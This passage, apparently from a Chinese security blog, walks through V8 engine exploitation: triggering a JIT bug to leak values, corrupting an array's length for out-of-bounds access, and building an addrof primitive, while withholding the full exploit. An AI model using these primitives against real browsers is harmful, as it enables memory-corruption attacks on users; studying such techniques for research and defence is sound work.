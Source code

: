```
%PrepareFunctionForOptimization(jit22)
jit22(object_3,0);
%OptimizeFunctionOnNextCall(jit22);

//%DebugPrint(test);
var leak2 = jit22(object_4,0xd);
//%DebugPrint(leak2);
```
1. array的长度决定越界的范围，忘记的同学可以再回头看一下。
1. 不能只修改oob_array的length，还需要将elements中的length一并修改。
接下来只要提前构造好下面的结构：

```
const test = new BigUint64Array(2);
var oob_array = [1.1,2.2,3.3];

obj_array = `{` m: 1337, target: gc `}`;
ab = new ArrayBuffer(0x1337);
```

利用test去越界修改oob_array的length和elements的length，这样就可以使用oob_array去进行漏洞利用了。

如果是32位的利用的话涉及到一个高低位的问题，这里需要注意一下：

简单举一个例子：

```
var object_idx = undefined;
var object_idx_flag = undefined;
for (let i = 0; i &lt; max_size; i++) `{`
if (d2u(oob_array[i])[0] == 0xa72) `{`
print("m: i: " + i + " lo 0");
print("target: i: " + i + " hi 1");
object_idx = i;
object_idx_flag = 1;
break;
`}`
if (d2u(oob_array[i])[1] == 0xa72) `{`
print("m: i: " + i + " hi 1");
print("target: i: " + (i + 1) + " lo 0");
object_idx = i + 1;
object_idx_flag = 0;
break;
`}`
`}`

function addrof(obj_para) `{`
obj_array.target = obj_para;
return d2u(oob_array[object_idx])[object_idx_flag] - 1;
`}`
```

最后由于一些众所周知的原因，详细的exp就没办法在这里放出了，相信看到这里熟悉v8利用的小伙伴们就已经知道后面该怎么做了，有了越界读写之后就是一些常规的做法了。
